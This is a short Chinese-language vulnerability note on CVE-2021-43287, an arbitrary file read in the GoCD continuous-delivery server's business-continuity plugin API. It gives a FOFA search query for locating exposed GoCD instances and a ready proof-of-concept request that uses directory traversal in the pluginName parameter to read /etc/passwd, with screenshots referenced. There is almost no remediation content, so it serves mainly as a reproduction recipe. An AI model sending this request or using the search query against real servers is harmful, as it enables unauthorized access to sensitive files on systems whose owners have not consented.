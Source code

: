 # GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

*GoCD*，一个开源的持续集成和持续交付系统，可以在持续交付过程中执行编译，自动化测试，自动部署等等，与Jenkins类似。

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

```
GoCD
```

## FOFA

```
title="Create a pipeline - Go"
```

## 漏洞复现

主页面

![](./images/202205251627593.png)

验证POC

```
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![](./images/202205251627131.png)